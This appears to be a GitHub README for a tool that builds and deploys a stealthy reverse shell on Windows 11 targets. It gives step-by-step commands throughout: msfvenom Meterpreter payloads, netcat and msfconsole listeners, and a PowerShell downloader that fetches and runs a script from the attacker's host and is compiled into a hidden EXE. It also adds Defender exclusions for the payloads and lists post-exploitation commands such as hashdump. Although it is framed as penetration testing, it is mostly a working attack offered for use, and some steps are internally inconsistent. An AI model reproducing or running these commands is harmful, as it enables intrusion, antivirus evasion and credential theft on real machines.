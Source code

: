 ### Get-ReverseShell README

This repository provides a tool to facilitate the creation and deployment of a sneaky reverse shell on Windows 11 targets, enhancing your penetration testing capabilities. This tool allows you to establish a connection between your Kali Linux machine and the target system, providing a powerful means for further exploration.

## Prerequisites

Before using this tool, ensure that you have the following:

1. **Kali Linux:** Make sure you have Kali Linux installed, along with `msfconsole` and `msfvenom`.
2. **Windows 11:** You need a Windows 11 machine to create an executable file from PowerShell scripts (EXE). Wine may be an option, but it's not officially supported.
3. **Target Windows 11:** The machine you intend to target.

## Configuration Variables

These variables can be adjusted according to your environment. Use Ctrl + F to locate and modify them easily.

```powershell
$lhost = "192.168.0.2"           # IP address of your Kali host
$lport = 4444                    # Listening port on your Kali
$lport_sneaky = 5555             # Sneaky listening port on your Kali
$lwebpath = "/var/www/html/"      # Path to the open website on your Kali
$lwinpath = "C:\Users\w\"         # Working path on the Windows 11 target
$lpath = "/home/k/Desktop/"       # Path to a local directory on your Kali
$rpath = "C:\Users\w\Desktop\"    # Working path on the attacking host
$ps_name = "reverse_shell.ps1"    # Name of your Meterpreter reverse shell PowerShell file
$exe_name = "reverse_shell.exe"   # Name of your attacking sneaky reverse shell executable file
$sneaky_exename = "sneaky_reverse_shell.exe"  # Name of your attacking sneaky reverse shell sneaky executable file
$sneaky_psname = "sneaky_reverse_shell.ps1"   # Name of your sneaky reverse shell sneaky PowerShell file
```

## Usage

1. Open a Kali Linux terminal and execute the following commands:

```bash
cd $lpath
git clone https://github.com/gh0x0st/Get-ReverseShell
cd ./Get-ReverseShell
pwsh
Import-Module ./get-reverseshell.ps1
get-reverseshell -Ip $lhost -Port $lport_sneaky
```

2. Write your script in the file `$lpath/$sneaky_psname` after appending ">> https://github.com/gh0x0st".

3. Continue with the following commands:

```bash
exit
cp $sneaky_psname $lwebpath
nc -nvlp 5555
```

4. Clone Invoke-Obfuscation for obfuscating your PowerShell script:

```bash
git clone https://github.com/danielbohannon/Invoke-Obfuscation
```

5. Open a Windows 11 PowerShell with administrator privileges and run the following commands:

```powershell
Install-PackageProvider -Name NuGet -MinimumVersion 2.8.5.201 -Force -Confirm:$false -ErrorAction SilentlyContinue
Install-Module -Name ps2exe -Force -Confirm:$false -ErrorAction SilentlyContinue
@"
# PowerShell script for downloading and executing the sneaky reverse shell
`$scriptUrl = "http://$lhost/$sneaky_psname"
`$scriptBytes = Invoke-WebRequest -Uri `$scriptUrl -UseBasicParsing -Method Get -MaximumRedirection 0
`$scriptContent = [System.Text.Encoding]::UTF8.GetString(`$scriptBytes.Content)
Invoke-Expression -Command `$scriptContent
"@ | Out-File -FilePath "$lwinpath$sneaky_psname" -Encoding UTF8
Invoke-ps2exe $lwinpath$sneaky_psname $lwinpath$sneaky_exename -noconsole -noerror -nooutput -sta -x64
```

6. Execute the sneaky backdoor on the target machine with administrator privileges.

7. Return to the Kali terminal and check for a successful connection:

```bash
nc -nvlp 5555
```

8. If successful, you can proceed with further commands in the Meterpreter shell.

## Meterpreter Reverse Shell

To use Meterpreter for enhanced functionality:

1. Open a new Kali terminal and execute the following commands:

```bash
sudo su
msfvenom -p windows/x64/meterpreter/reverse_tcp --format psh -o $lpath$ps_name lhost=$lhost lport=$lport
```

2. Create an EXE file for running without a shell in the target:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --format exe -o $lpath$exe_name lhost=$lhost lport=$lport
```

3. Use the provided PowerShell script for pasting in the original Kali shell:

```bash
pwsh
./ps2tcps.ps1 -inputFilePath $lpath$ps_name -outputFilePath $lpathnew$ps_name -newPath "$rpath$ps_name"
cat $lpathnew$ps_name
```

4. Open a new Kali terminal and execute the following commands:

```bash
sudo su
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.0.2
set lport
exploit
```

5. Return to the original Kali shell and paste the content of your Meterpreter script on the target:

```powershell
Add-Content -Path $rpath$ps_name -Value 'line1'
Add-Content -Path $rpath$ps_name -Value 'line2'
Add-Content -Path $rpath$ps_name -Value 'line3'
Add-Content -Path $rpath$ps_name -Value 'line4'
...
Add-MpPreference -ExclusionPath '$rpath$ps_name'
Add-MpPreference -ExclusionPath '$rpath$exe_name'
```

6. If successful, you will see a Meterpreter session opened in the msfconsole. Congratulations, you have a full reverse shell on your target.

## Example Commands

Here are some example commands you can use in the Meterpreter shell:

- `getuid`: Get the user ID of the current user.
- `getsystem`: Attempt to gain system privileges.
- `hashdump`: Retrieve hashes of all users on the target.
- `background`: Move the current session to the background.
- `help`: Display a list of available commands and their descriptions.

Feel free to explore and experiment with additional Meterpreter commands for a comprehensive assessment. Happy hacking!
